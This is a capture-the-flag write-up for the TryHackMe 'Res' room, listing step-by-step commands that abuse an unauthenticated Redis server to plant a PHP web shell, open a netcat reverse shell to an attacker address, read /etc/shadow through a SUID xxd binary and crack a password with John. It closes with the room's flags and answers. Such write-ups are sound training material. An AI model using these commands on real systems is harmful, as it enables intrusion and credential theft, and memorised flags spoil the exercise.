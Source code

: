 # Solution

## URL
- [Res](https://tryhackme.com/room/res)

## Steps

### Enumerate
1. Start a scan on all ports using NMAP `sudo nmap -v -sS -p- -A 10.10.32.193 | tee nmap-scan.txt`.
2. There's a website running on port 80: `ffuf -u http://10.10.32.193/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -mc 200,301,302,403 -fs 11321 | tee ffuf-dir-scan.txt`.
3. Port scan results show that only 2 ports are open, `80` and `6379`.
4. Redis is running on port 6379, in the results we can see the version `6.0.7`.
5. Connect to redis with `redis-cli -h 10.10.32.193`.
6. Trying to enumerate redis databases with `INFO keyspace` returns empty list.

### Reverse shell:
1. When we opened the index page of the website it reveals the web root: `/var/www/html`.
2. We can try to use redis to upload a webshell.
3. Run these commands:
    ```
    config set dir /var/www/html
    config set dbfilename redis.php
    set test "<?php echo SYSTEM($_GET['cmd']); ?>"
    save
    ```
4. Now go to `/redis.php?cmd=whoami` and this executes the `whoami` command.
5. Since we verified this works, let's get a reverse shell. Set up a listener on port 4444: `nc -lvnp 4444`.
6. Trying bash reverse shell did not work, lets try netcat: `/redis.php?cmd=nc%20-e%20/bin/sh%2010.17.47.107%204444`. It worked~ We got a connection.
7. Enumerating a bit more we got `/home/vianka/user.txt`
8. The first flag is `thm{red1s_rce_w1thout_credent1als}`. 
9. Stabilize the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`.

### PrivEsc:
1. Finding all SUID binaries using: `find / -perm -u=s -type f 2>/dev/null` gives us `xxd`.
2. Using that we read `/etc/shadow`:
    ```
    LFILE=/etc/shadow
    xxd "$LFILE" | xxd -r
    ```
3. We get `vianka`'s hash: `$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0`.
4. Crack that using john:
    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    john --show hash
    ```
5. We get the password: `beautiful1`.
6. Log into `vianka`'s account: `su - vianka` and enter her password.
7. Now do `sudo -l`, we caan see that we can run any command as `root`.
8. Find `root.txt` file: `sudo find / -name root.txt -type f 2> /dev/null`.
9. Found `/root/root.txt`. Reading that we get the final flag: `thm{xxd_pr1v_escalat1on}`.

### Task 1:
#### Scan the machine, how many ports are open?
1. The answer is `2`.

#### What's is the database management system installed on the server?
1. The answer is `redis`.

#### What port is the database management system running on?
1. The answer is `6379`.

#### What's is the version of management system installed on the server?
1. The answer is `6.0.7`.

#### Compromise the machine and locate user.txt
1. The answer is `thm{red1s_rce_w1thout_credent1als}`.

#### What is the local user account password?
1. The answer is `beautiful1`.

#### Escalate privileges and obtain root.txt
1. The answer is `thm{xxd_pr1v_escalat1on}`.